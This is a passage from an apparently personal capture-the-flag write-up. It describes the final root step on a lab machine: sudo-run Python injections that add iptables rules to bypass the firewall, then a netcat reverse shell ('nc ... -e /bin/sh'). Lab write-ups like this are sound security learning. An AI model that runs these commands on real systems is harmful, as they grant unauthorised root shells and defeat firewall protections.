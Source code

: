 Thus, given that we can run commands as sudo, we can apply some rules ourselves in order to bypass the firewall for a specific IP. Upon getting the shell, it can be upgraded with python's tty in order to get a prompt (which I think is a bit nicer).

The commands used to apply the rules were:


```sh
echo '__import__("os").system("/sbin/iptables -A INPUT -p tcp -s 10.10.14.137 -j ACCEPT")' | sudo /usr/bin/python2.7 /home/richard/test.py

echo '__import__("os").system("/sbin/iptables -A OUTPUT -p tcp -d  10.10.14.137 -j ACCEPT")' | sudo /usr/bin/python2.7 /home/richard/test.py
```

Then, passing ```nc [ip] [port] -e /bin/sh``` as the argument to the test.py script I finally get my shell.

*Root shell*

![Img](images/root_shell.png "Img")

---

Without doubt one of the coolest machines I've owned so far, it shows some real vulnerabilities and makes you learn that there are unexpected ways of achieving a goal (with the hashes, I mean).

*Diego Bernal Adelantado*
